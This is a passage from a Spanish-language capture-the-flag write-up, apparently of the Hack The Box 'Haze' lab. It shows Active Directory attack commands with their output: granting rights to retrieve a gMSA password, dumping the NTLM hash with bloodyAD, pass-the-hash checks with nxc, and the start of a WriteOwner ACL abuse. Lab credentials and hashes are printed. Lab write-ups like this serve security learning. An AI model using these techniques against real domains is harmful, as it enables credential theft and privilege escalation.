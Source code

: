 ~~~ bash
*Evil-WinRM* PS C:\Temp> Set-ADServiceAccount 'Haze-IT-Backup$' -PrincipalsAllowedToRetrieveManagedPassword mark.adams
~~~

Ahora con el usuario `mark.adams` deberíamos ser capaces de leer las credenciales `gMSA`

~~~ bash
bloodyAD --host dc01.haze.htb -d haze.htb --dc-ip 10.10.11.61 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' get object 'Haze-IT-Backup$' --attr msDS-ManagedPassword 

distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:4de830d1d58c14e241aff55f82ecdba1
msDS-ManagedPassword.B64ENCODED: biM0DnGKzlEE4Y4pbu4a21ybJTwLnhITfXWzyJVkPA20dLv0GqrQ3/VMvh6zW5/O9118dpSXRkpk0HfMCiBd/HsZ2pC3b4mJIvgOfYK+1M5wB9QSxKe3k4xgKfjrwFglj4pHJG9LUsTXdLAyPi9RwbJTY7G8zSr2p1tQZhiI0zLjXNAOek0XGUovDw8NHD0OQOVWjjGMtEZkdIB/FnaRiJFKdpCyGYKOw/JDf4mTy23h/irv8p9UQbzw85n5I/CcFEPhhHtidCbQMmSIiZsdVzY81QnuNqvEXAgv9bzNaVhyewCdYXY4F+ir/8qQAejtiksHy/wpPFMsOpOw8BnKvA==
~~~

Ya podremos autenticarnos como la cuenta `Haze-IT-Backup$` en el dominio, más no podemos conectarnos vía `powershell`

~~~ bash
nxc smb dc01.haze.htb -u 'Haze-IT-Backup$' -H '4de830d1d58c14e241aff55f82ecdba1'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\Haze-IT-Backup$:4de830d1d58c14e241aff55f82ecdba1

nxc winrm dc01.haze.htb -u 'Haze-IT-Backup$' -H '4de830d1d58c14e241aff55f82ecdba1'
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.10.11.61     5985   DC01             [-] haze.htb\Haze-IT-Backup$:4de830d1d58c14e241aff55f82ecdba1
~~~


## Abusing ACL - `WriteOwner` Rights

La cuenta `Haze-IT-Backup$` posee derechos `WriteOwner` sobre el grupo `Support_Services`, esto nos permite modificar el propietario del grupo

![image-center](/assets/images/posts/haze-bloodhound.png)
{: .align-center}
